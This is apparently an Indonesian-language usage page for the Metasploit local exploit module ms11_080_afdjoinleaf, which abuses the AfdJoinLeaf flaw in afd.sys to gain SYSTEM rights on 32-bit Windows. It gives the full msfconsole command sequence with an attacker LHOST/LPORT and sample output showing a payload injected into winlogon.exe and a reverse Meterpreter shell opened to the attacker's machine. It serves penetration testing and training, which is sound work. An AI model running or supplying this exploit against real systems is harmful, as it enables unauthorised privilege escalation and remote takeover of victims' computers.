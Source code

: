 # ms11_080_afdjoinleaf

Modul ini mengeksploitasi kelemahan pada fungsi `AfdJoinLeaf` di dalam driver `afd.sys` untuk menimpa data di ruang kernel. Sebuah alamat di dalam `HalDispatchTable` akan ditimpa, dan ketika dipicu melalui pemanggilan fungsi `NtQueryIntervalProfile`, maka akan menjalankan `shellcode`.

Modul ini akan menaikkan hak akses dirinya sendiri menjadi `SYSTEM`, lalu menyuntikkan payload ke dalam proses `SYSTEM` lain, sebelum mengembalikan token miliknya sendiri untuk menghindari ketidakstabilan sistem.

## Penulis
- Matteo Memelli
- Spencer McIntyre

## Platform
- `Windows`

## Arsitektur
- `x86`

## Cara Penggunaan di Metasploit

```
use exploit/windows/local/ms11_080_afdjoinleaf
set PAYLOAD <PAYLOAD>
set SESSION <ID>
set LHOST <IP_ATTACKER>
set LPORT <PORT_LISTENER>
set TARGET <ID>
set VERBOSE true
```

Hasil output-nya seperti ini:

```
[*] Started reverse TCP handler on 192.168.1.11:4444 
[*] Kernel Base Address: 0x804d7000
[*] HalDispatchTable Address: 0x80553038
[*] HaliQuerySystemInformation Address: 0x80715bba
[*] HalpSetSystemInformation Address: 0x80718436
[*] Triggering AFDJoinLeaf pointer overwrite...
[*] Injecting the payload into SYSTEM process: winlogon.exe
[*] Creating the thread to execute in 0xaf0000 (pid=620)
[*] Sending stage (177734 bytes) to 192.168.1.54
[*] Restoring the original token...
[*] Meterpreter session 26 opened (192.168.1.11:4444 -> 192.168.1.54:1059) at 2025-05-17 08:17:32 +0700

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
```

## Referensi
- [Rapid7](https://www.rapid7.com/db/modules/exploit/windows/local/ms11_080_afdjoinleaf/)
